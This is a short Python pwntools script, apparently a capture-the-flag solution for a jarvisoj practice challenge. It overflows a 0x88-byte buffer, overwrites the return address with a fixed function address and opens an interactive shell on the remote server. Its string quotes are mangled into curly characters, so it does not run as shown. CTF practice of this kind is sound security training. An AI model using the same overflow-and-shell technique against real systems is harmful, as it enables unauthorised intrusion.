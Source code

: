 # -*- coding:utf-8 -*-
from pwn import *

sh = remote("pwn2.jarvisoj.com",9881)
junk = ‘a‘*0x88
syscall = 0x00400596
payload = junk  + p64(syscall) 
sh.send(payload)
sh.interactive() 
